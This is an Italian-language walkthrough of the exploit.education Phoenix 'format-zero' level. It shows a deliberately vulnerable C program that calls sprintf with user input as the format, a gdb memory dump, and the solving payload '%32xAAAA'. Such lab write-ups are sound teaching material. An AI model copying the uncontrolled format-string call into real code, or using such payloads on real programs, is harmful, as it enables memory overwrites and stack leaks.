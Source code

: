 ### Descrizione del Codice

Il programma `format_zero.c` introduce le stringhe di formato e come le stringhe di formato fornite dall'attaccante possano modificare l'esecuzione del programma.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buffer`.
2. Copia il contenuto di `buffer` in `locals.dest` usando `sprintf`.
3. Controlla se la variabile `changeme` è stata modificata.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `sprintf` con un input controllato dall'utente senza specificare un formato, il che può causare una vulnerabilità di formato. Questo può essere sfruttato per scrivere un valore specifico nella variabile `changeme`.

### Exploit

L'exploit sfrutta la vulnerabilità di formato per scrivere un valore specifico nella variabile `changeme`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}

Per imparare di più sulla vulnerabilità delle stringhe di formato, consulta i riferimenti alla fine.

Questo codice utilizza la funzione sprintf per scrivere la stringa formattata buffer in dest.

Il bug qui è che se inseriamo una stringa di formato come %d senza argomenti aggiuntivi (un numero in questo caso) potremmo rivelare alcuni valori dello stack.

Per esempio:
int main() {
    printf("%x.%x.%x");
}

output: d0a8b868 d0a8b878 3c43b1b0
Come puoi vedere, siamo stati in grado di rivelare alcuni indirizzi dello stack.

Tornando al nostro livello, dobbiamo sovrascrivere dest per sovrascrivere changeme, ma il buffer è troppo piccolo per farlo, quindi possiamo usare il trucco della stringa di formato per risolvere questo problema.

Come hai visto, un %x stampa 8 caratteri, quindi possiamo inserire: (4 %x + valore di changeme).

Possiamo anche inserire un solo %x con un padding di 32 byte come questo: (%32x + valore di changeme).

user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/format-zero 
Reading symbols from /opt/phoenix/amd64/format-zero...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+99>:	mov    eax,0x0
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
.....

gef➤  b *0x000000000040070a
Breakpoint 1 at 0x40070a

gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAAAAAA

gef➤  x/5xg $rbp-0x30
0x7fffffffe620:	0x2020202020202020	0x2020202020202020
0x7fffffffe630:	0x2020202020202020	0x3031366566666666
0x7fffffffe640:	0x0000000a41414141

Soluzione
$ echo "%32xAAAA" | /opt/phoenix/amd64/format-zero 
